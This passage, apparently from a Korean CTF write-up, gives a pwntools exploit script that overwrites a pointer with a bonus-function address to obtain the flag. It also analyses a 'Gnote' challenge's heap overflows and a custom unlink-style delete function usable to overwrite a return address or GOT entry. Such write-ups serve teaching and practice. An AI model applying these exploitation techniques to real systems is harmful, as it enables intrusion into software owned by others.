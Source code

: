 주어진 bonus 함수로 이 포인터를 조작하면 플래그를 얻을 수 있다.


```
from pwn import *

p = remote("13.209.132.255", 7979)
#p = process("./friends")
flag = 0x400FD6

p.sendlineafter(">> ","1")
p.sendlineafter(">> ","1")

p.sendlineafter("color?",p32(flag))
p.sendlineafter(">> ","2")

p.sendlineafter(": ","1")
p.sendlineafter(": ","Lion")
print p.recv()
```

FLAG : Talent wins gam3s, but teamwork wins champi0nships

## Gnote - Pwnable 200pt

바이너리를 보면 add, del, edit 메뉴들이 있다. 

add 메뉴에서는 stack주소와 heap주소를 주고 scanf로 chunk + 8 위치에 입력을 받고 있다. 이로 인해 heap overflow 취약점이 발생한다.

edit 메뉴에서는 edit하려고 하는 위치의 chunk가 add 메뉴로 인해 생성되어 졌는지 확인하고 get함수로 chunk + 8 위치에 입력을 받는다. 여기서도 heap overflow 취약점이 발생하는 것을 알 수 있다.

del 메뉴에선 free함수를 사용하지 않고 delete라는 직접 만든 함수를 사용하고 있다.

```
int __cdecl delete(int *chunk)
{
  int *v1; // ST18_4
  int v2; // ST1C_4

  if ( !chunk[1] || !*chunk )
    return puts("delete complete!");
  v1 = chunk[1];
  v2 = *chunk;
  *(v2 + 4) = v1;
  *v1 = v2;
  return puts("delete complete!");
}
```

입력은 chunk + 8 부분부터 받기 때문에 *chunk 와 *(chunk + 4) 에 값이 있는지 확인하고, 있다면 값이 있다면, (*chunk + 4) 의 값을 참조해서 *(chunk + 4) 의 값을 넣어주고 *(chunk + 4) 의 값을 참조해서 *chunk 값을 넣어준다.

앞서 add메뉴와 edit 메뉴에서 heap overflow가 일어나므로, 이 delete 함수를 이용해서 return address나 got를 overwrite해서 쉘 획득이 가능할 것이다. bonus 함수가 주어져있으므로 추가적인 Libc Leak은 필요 없을 것 같다.
